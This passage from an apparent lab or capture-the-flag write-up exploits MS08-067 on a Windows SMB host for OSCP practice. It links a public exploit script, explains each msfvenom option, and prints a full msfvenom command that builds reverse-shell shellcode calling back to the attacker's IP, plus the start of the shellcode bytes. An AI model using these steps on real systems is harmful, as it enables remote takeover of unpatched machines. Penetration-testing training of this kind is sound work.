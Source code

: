 ```
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.49 seconds

```

It looks like this box is vulnerable to two infamous SMB exploits, MS-08-067 (made famous by Conficker) and MS-17-010 (made famous by Shadow Brokers).

## System Shell

### Overview

Both of these vulnerabilities give a shell as system. Both also have Metasploit modules that are basically automatic pwns. But to make this interesting (and relevant to anyone doing PWK / OSCP), I’ll show how to do each without Metasploit.

### MS-08-067

#### Locate Exploit

I’ll use the exploit from jivoi on Github [here](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py). It’s a python script that requires Impacket (which comes installed on Kali) and for me to replace the default shellcode with some of my own. (Interestingly, the default is a reverse TCP shell to 10.11.0.157… looks like the author may have been in PWK.)

#### Shellcode Generation

To make the shellcode, I’ll use `msfvenom`. I’ll copy the bad characters list (`-b`) from the examples in the exploit code. I’ll use the following parameters:
- `-p windows/shell_reverse_tcp` - This will connect back to me with a shell. Because I used `shell_reverse_tcp` it is unstaged, meaning the entire shell is in this code, and I can catch the callback with `nc`. Had I used `shell/reverse_tcp`, that would be a staged payload, and I’d need to use Metasploits `exploit/multi/handler` to get the callback.
- `LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread` - defining the variables for the payload - my ip, the port, and how to exit.
- `-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"` - The bad characters not to use. I got this from the comments in the python code.
- `-f py` - Output in python format. The examples use c format, and just pasted it in slightly differently. Either will work.
- `-v shellcode` - Have the code set the variable `shellcode`, instead of the default, `buf`. I want this to match what it’s called in the code I’m using.
- `-a x86` and `--platform windows` - Describing the environment I’m attacking.

```

root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1872 bytes
shellcode =  ""
shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
```